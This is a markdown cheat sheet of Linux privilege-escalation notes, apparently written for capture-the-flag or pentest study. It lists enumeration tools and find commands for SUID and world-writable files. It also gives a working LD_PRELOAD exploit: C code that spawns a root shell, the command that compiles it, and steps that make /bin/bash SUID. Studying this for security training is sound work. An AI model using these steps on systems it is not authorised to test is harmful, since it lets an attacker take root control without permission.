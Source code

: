 # Linux Enumeration
---
## Tools & Resources
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

- LinEnum: https://github.com/rebootuser/LinEnum

- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester

- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration

- Linux Priv Checker: https://github.com/linted/linuxprivchecker

- Priv Esc Resource: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
---
- sudo -l - see what can be run as sudo for current user
- cat /etc/passwd | cut -d ":" -f 1

- find . -name flag1.txt: find the file named “flag1.txt” in the current directory

- find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory

- find / -type d -name config: find the directory named config under “/”

- find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)

- find / -perm a=x: find executable files

- find /home -user frank: find all files for user “frank” under “/home”

- find / -mtime 10: find files that were modified in the last 10 days

- find / -atime 10: find files that were accessed in the last 10 day

- find / -cmin -60: find files changed within the last hour (60 minutes)

- find / -amin -60: find files accesses within the last hour (60 minutes)

- find / -size 50M: find files with a 50 MB size

- find / -writable -type d 2>/dev/null : Find world-writeable folders

- find / -perm -222 -type d 2>/dev/null: Find world-writeable folders

- find / -perm -o w -type d 2>/dev/null: Find world-writeable folders

- find / -perm -o x -type d 2>/dev/null : Find world-executable folders

- find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

---
if LD_PRELOAD in sudo -l output

Check for LD_PRELOAD (with the env_keep option)
Write a simple C code compiled as a share object (.so extension) file
Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows;
#include <stdio.h>
```
#include <sys/types.h>

#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");

setgid(0);

setuid(0);

system("/bin/bash");

}
```
We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

set suid bit on /bin/bash `chmod +s /bin/bash`

run `bash -p`
